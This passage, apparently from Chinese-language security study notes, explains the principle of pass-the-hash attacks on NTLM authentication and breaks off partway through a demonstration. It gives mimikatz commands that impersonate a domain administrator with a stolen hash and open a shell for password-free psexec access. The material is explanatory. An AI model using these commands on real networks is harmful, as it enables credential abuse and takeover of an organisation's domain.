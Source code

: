 ![](vx_images/3779442118593.png)

## 2.2 哈希传递攻击原理

在认证过程中, 攻击者不需要获取明文密码, 只需要获取到用户的 NTLM 哈希, 就可以伪造用户发起一次完整的认证流程. 在域环境下, 如果获取到了域管用户的 NTLM 哈希, 那么就可以接手整个域网络.

## 2.3 攻击演示

使用 mimikatz 进行 PTH:

```
privilege::debug
sekurlsa::pth /user:administrator /domain:Mint.com /ntlm:899858313a9f440a3b6cc47bb5c8f08d
```

之后就会获取该 NTLM 用户的 shell, 在该 shell 可以无需输入密码地使用 psexec 进行连接:
